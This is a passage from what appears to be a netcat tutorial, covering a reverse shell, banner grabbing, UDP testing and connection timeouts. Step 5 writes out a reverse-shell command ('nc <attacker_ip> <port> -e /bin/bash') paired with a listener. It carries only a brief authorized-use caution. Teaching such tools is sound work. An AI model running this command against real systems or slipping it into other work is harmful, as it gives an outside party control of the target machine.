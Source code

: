 
## **Step 5: Remote Shell Access**
### **Setting Up a Reverse Shell**
1. On the attacker’s machine, start a listener:
   ```bash
   nc -l -p <port>
   ```
2. On the target machine, execute the reverse shell:
   ```bash
   nc <attacker_ip> <port> -e /bin/bash
   ```
3. Gain shell access:
   - Commands entered on the attacker’s machine will execute on the target.

   **Caution**: Use reverse shells only in authorized environments.

---

## **Step 6: Banner Grabbing**
1. Connect to a service to retrieve its banner:
   ```bash
   nc <target_ip> <port>
   ```
   Example:
   ```bash
   nc 192.168.1.1 80
   ```
2. Type an HTTP GET request:
   ```
   GET / HTTP/1.1
   Host: <target_ip>
   ```
   - Press **Enter** twice to send the request.

3. Observe the response:
   - The service’s banner or additional information will be displayed.

---

## **Step 7: Network Testing with UDP**
1. Send a UDP packet:
   ```bash
   nc -u <target_ip> <port>
   ```
   - Type a message and press **Enter** to send.
2. Set up a listener to receive UDP packets:
   ```bash
   nc -u -l -p <port>
   ```

---

## **Step 8: Advanced Options**
1. **Timeout for Connections**:
   ```bash
   nc -w <seconds> <target_ip> <port>
   ```
   - Example:
     ```bash
     nc -w 5 192.168.1.1 80
     ```
